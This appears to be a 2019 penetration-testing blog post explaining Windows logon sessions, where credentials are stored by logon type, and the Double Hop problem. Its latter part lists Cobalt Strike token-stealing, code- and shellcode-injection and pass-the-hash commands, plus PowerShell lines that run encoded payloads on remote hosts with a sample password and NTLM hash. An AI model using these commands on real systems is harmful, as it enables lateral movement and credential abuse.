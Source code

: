 ```yaml
---
layout: post
title: Windows Credential Management, Logon Sessions and the Double Hop Problem
date: '2019-04-12 21:52:17'
---
```


I wanted to provide a quick overview on Windows credential management in relation to penetration testing, why passwords are not always stored in memory and the Double Hop problem.

Windows creates a [logon session](https://docs.microsoft.com/en-us/windows/desktop/SecAuthN/lsa-logon-sessions) upon a successful authentication. Each logon session will be backed by several authentication packages. These authentication packages store the credential material. The logon type and protocol will determine what credential material gets stored.

All processes and threads have an access token that is tied to a logon session. If a process or thread wants to execute in a different security context than it must acquire the appropriate access token. This concept is called impersonation.

During a Network logon (type 3 - e.g. WMI, PsExec, SMB, etc) the client proves they have credentials but does not send them to the target. A logon session is created but no sensitive credential material will exist on the target. Processes or threads which have an access token tied to this logon session will **NOT** be able to authenticate to network resources within the context of the user. This is often termed the Double Hop problem.

During an Interactive (local console) or Remote Interactive (RDP) logon (types 2 and 10 respectively) the client sends the credentials to the target. The credentials are now stored within the credential material of an authentication package for that logon session. Processes or threads which have an access token tied to this logon session **WILL** be able to authenticate to network resources within the context of the user.

On a side note, if you have even wondered how the Mimikatz _sekurlsa::logonpasswords_ command works, it iterates over all logon sessions and dumps the credential material in each default authentication package.

You can solve the Double Hop problem by acquiring an access token for a logon session (impersonating) or injecting code into a process that contains the required access token. In Cobalt Strike this would be the commands:

<!--kg-card-begin: html-->

    steal\_token [pid] inject [pid] \<x86|x64\> [listener] shinject [pid] \<x86|x64\> [/path/to/shellcode.bin] spawnu [pid] [listener]

<!--kg-card-end: html-->

If no logon sessions exist with the credential material you require, you can create one using the Cobalt Strike commands:

<!--kg-card-begin: html-->

    make\_token [DOMAIN\user] [password] pth [DOMAIN\user] [HASH] spawnas [DOMAIN\user] [password] [listener]

<!--kg-card-end: html-->

Lastly you can directly pass the credentials to the tool performing the network operations like so:

<!--kg-card-begin: html-->

    $pass = ConvertTo-SecureString 'Winter2019' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('DOMAIN\Account', $pass); Invoke-WmiMethod -Credential $cred -ComputerName "Target" win32\_process -name create -argumentlist 'powershell -ep bypass -noP -enc JABjACAAPQA...' Invoke-Command -Credential $cred -ComputerName "Target" -ScriptBlock {powershell -ep bypass -noP -enc JABjACAAPQA...} # https://github.com/Kevin-Robertson/Invoke-TheHash Invoke-SMBExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose Invoke-WMIExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose

<!--kg-card-end: html-->

Hopefully this gives you a better understanding of when you are allowed to authenticate to network resources during a penetration test.

